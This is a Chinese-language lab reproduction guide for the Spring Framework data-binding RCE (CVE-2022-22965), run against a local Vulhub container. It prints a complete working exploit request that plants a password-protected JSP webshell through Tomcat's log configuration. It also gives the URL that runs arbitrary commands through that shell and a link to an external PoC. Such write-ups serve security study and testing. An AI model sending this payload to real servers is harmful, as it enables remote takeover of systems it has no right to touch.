 # Spring框架Data Binding与JDK 9+导致的远程代码执行漏洞 CVE-2022-22965

## 漏洞描述

在JDK 9+上运行的Spring MVC或Spring WebFlux应用程序可能存在通过数据绑定执行远程代码（RCE）的漏洞。

现在已知的利用方法要求应用程序以WAR部署的形式在Tomcat上运行，然而，该漏洞的性质更为普遍，可能有其他方法可以利用它。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22965
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动一个Spring WebMVC 5.3.17服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080/?name=Bob&age=25`即可看到一个演示页面。

## 漏洞复现

发送如下数据包，即可修改目标的Tomcat日志路径与后缀，利用这个方法写入一个JSP文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```

![image-20220412215932241](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412215932241.png)

然后，访问刚写入的JSP Webshell，执行任意命令：

```
http://your-ip:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![image-20220412220112693](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412220112693.png)

注意，需要在利用完成后将`class.module.classLoader.resources.context.parent.pipeline.first.pattern`清空，否则每次请求都会写入新的恶意代码在JSP Webshell中，导致这个文件变得很大。发送如下数据包将其设置为空：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

总体来说，这个漏洞的利用方法会修改目标服务器配置，导致目标需要重启服务器才能恢复，实际测试中需要格外注意。

## 漏洞POC

- spring4shell_behinder：https://github.com/4nth0ny1130/spring4shell_behinder
